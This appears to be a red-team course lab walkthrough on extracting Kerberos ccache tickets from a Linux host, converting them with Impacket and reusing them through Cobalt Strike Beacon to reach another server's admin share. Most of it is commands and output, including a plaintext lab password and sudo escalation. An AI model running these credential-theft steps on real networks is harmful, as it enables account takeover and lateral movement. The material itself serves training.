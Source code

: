 Kerberos Credential Cache (ccache) files hold the Kerberos credentials for a user authenticated to a domain-joined Linux machine, often a cached TGT. If you compromise such a machine, you can extract the ccache of any authenticated user and use it to request service tickets (TGSs) for any other service in the domain.

Access the console of WKSTN-2 and use **PuTTY** to ssh into nix-1 as jking. Then use your foothold Beacon to ssh into nix-1 as a member of the Oracle Admins group, from your attacking machine.

```
root@kali:~# proxychains ssh svc_oracle@10.10.17.12
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.12:22-<><>-OK
svc_oracle@10.10.17.12's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-1037-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  9 15:34:17 UTC 2021

  System load:  0.0               Processes:             114
  Usage of /:   22.6% of 7.69GB   Users logged in:       1
  Memory usage: 50%               IPv4 address for eth0: 10.10.17.12
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


svc_oracle@nix-1:~$
```

  
> Beacon also has a built-in ssh client, but using a fully-fledged client through a pivot may be more convenient.  
```
beacon> ssh 10.10.17.12:22 svc_oracle Passw0rd!
[+] established link to child session: 10.10.17.12
```
  

The ccache files are stored in `/tmp` and are prefixed with `krb5cc`.

```
svc_oracle@nix-1:~$ ls -l /tmp/
total 20
-rw------- 1 jking      domain users 1342 Mar  9 15:21 krb5cc_1394201122_MerMmG
-rw------- 1 svc_oracle domain users 1341 Mar  9 15:33 krb5cc_1394201127_NkktoD
```

  

We can see by the permission column that only the user and root can access them - so for this to be a useful primitive, root access is required. In this case, `svc_oracle` has sudo privileges.

```
svc_oracle@nix-1:~$ sudo -l
[sudo] password for svc_oracle:
Matching Defaults entries for svc_oracle on nix-1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_oracle may run the following commands on nix-1:
    (ALL) ALL

svc_oracle@nix-1:~$ sudo -i
root@nix-1:~#
```

  

  
Use this access to download `krb5cc_1394201122_MerMmG` to your Kali VM.

>  Cobalt Strike has a `kerberos_ccache_use` command, but it does not seem to recognise this particular ccache format.  
```
beacon> kerberos_ccache_use C:\Users\Administrator\Desktop\krb5cc_1394201122_MerMmG
[-] Could not extract ticket from C:\Users\Administrator\Desktop\krb5cc_1394201122_MerMmG
```

Instead, we can use **Impacket** to convert this ticket from **ccache** to **kirbi** format.

```
root@kali:~# impacket-ticketConverter krb5cc_1394201122_MerMmG jking.kirbi
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```  

Now we can use this kirbi with a sacrificial logon session.

beacon> make_token DEV\jking FakePass
[+] Impersonated DEV\bfarmer

```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jking.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     03/09/2021 12:32:56   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/09/2021 12:30:35   pagefile.sys
```
